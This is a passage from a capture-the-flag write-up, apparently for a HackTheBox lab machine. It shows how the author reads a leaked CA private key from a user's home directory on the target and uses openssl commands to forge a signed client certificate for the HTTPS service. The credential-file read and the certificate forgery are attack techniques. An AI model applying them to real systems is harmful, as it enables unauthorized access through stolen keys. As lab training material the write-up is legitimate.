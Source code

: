 So I'm going to copy the private key I found in the **nairobi** home directory on my machine and then comes the research phase to generate a certificate from the leaked private key. I found a very interesting resource on the **Internet** to **[generate the pkcs12 self signed certificate using openssl](https://serverfault.com/questions/831394/how-can-i-create-a-pkcs12-file-using-openssl-self-signed-certs){:target="_blank"}** but I also had to rely on other resources on **[how to create a .p12 file](https://stackoverflow.com/questions/21141215/creating-a-p12-file){:target="_blank"}**. The steps I followed were as follows:

> - Generate the **private key** (this is the one I obtained from the machine to be compromised)
- Obtain with `openssl` the **x509** certificate of the web service from port **443**
- Generate a **4096-bit** private key using the **RSA** public key encryption algorithm.
- Generate a **Certificate request**
- Sign the **Certificate request**
- Generate **pkcs12** certificate from the previously signed certificate
- Set the correct permissions for the self-signed **pkcs12** certificate

```bash
  readfile('/home/nairobi/ca.key')

nvim ca.key
file ca.key

openssl s_client --connect 10.10.10.131:443 | openssl x509 > ca.cer

openssl genrsa -out client.key 4096

openssl req -new -key client.key -out client.req

openssl x509 -req -in client.req -CA ca.cer -CAkey ca.key -days 365 -extensions client -outform PEM -out client.cer

openssl pkcs12 -export -inkey client.key -in client.cer -out client.p12

ls -l ./client.p12
chmod 777 client.p12
ls -l ./client.p12
```

<br />
<img src="{{ site.img_path }}/lacasadepapel_writeup/LaCasaDePapel_24.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/lacasadepapel_writeup/LaCasaDePapel_25.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/lacasadepapel_writeup/LaCasaDePapel_26.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/lacasadepapel_writeup/LaCasaDePapel_27.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/lacasadepapel_writeup/LaCasaDePapel_28.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
